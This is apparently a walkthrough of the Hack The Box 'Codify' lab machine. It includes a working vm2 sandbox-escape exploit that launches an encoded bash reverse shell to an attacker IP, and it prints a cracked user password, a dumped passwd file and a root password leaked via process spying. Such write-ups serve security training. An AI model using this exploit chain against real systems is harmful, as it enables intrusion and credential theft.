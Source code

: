 Standard `nmap` scan reveals that 3 of the most used ports are open with the entry for `/etc/hosts`:

```
# Nmap 7.94 scan initiated Fri Nov 10 15:37:01 2023 as: nmap -sC -sV -oN nmap-scsv 10.129.86.179
Nmap scan report for 10.129.86.179
Host is up (0.087s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

In the About section is more information about Code Editor with a link to exact version of `vm2` library on GitHub. However in the Security tab we can find that on 17th April (6 days after actual version was released) was updated with a critical vulnerability in the framework where exception sanitation allows attacker to raise an unsanitized host exception inside `handleException()`, which can be used to escape the sandbox. PoC of the vulnerability can be found at https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

This gives the first peek into the file system of the machine, its accounts and services:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
fwupd-refresh:x:114:122:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Getting reverse shell requires a small workaround with base64 encryption on `http://codify.htb/editor`:

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMS8xMzM3IDA+JjE= | base64 -d | bash -
```

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yMS8xMzM3IDA+JjE= | base64 -d | bash -');
}
`

console.log(vm.run(code));
```

After upgrading the shell I've located in `/var/www/contact/tickets.db` is hash for user `joshua:$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`. The app uses in the backed express.js with sqlite3 which confirms `ss -tuln` enumeration with the port 3306 listening on localhost. Cracking the has with `john` brings up trivial password: `spongebob1`

## Privilege escalation

`sudo -l` indicates that joshua may run script `/opt/scripts/mysql-backup.sh` as a root user:

```shell
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'

```

`Mysql` login and enumeration `/usr/bin/mysql -u joshua -h 0.0.0.0 -P 3306 -p`:

```mysql
mysql> select User,Password from user;
+-------------+-------------------------------------------+
| User        | Password                                  |
+-------------+-------------------------------------------+
| mariadb.sys |                                           |
| root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
| passbolt    | *63DA7233CC5151B814CBEC5AF8B3EAC43347A203 |
| joshua      | *323A5EDCBFA127CC75F6C155457533AC1D5C4921 |
| root        | *4ECCEBD05161B6782081E970D9D2C72138197218 |
+-------------+-------------------------------------------+
```

Attempt to break the mysql5 hash was unsuccessful with any of the dictionaries using:

In the meantime I have returned to the script `/opt/scripts/mysql-backup.sh` and after elevating it with `sudo` and using * wildcard for root password, the script was executed. Because there is a password retrieved from `/root/.creds` used in the command line of a script I have spied on the processes running with `pspy32` and on my second attempt successfully retrieved the root password.

```shell
PID=49721  | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -p kljh12k3jhaskjh12kjh3 mysql
```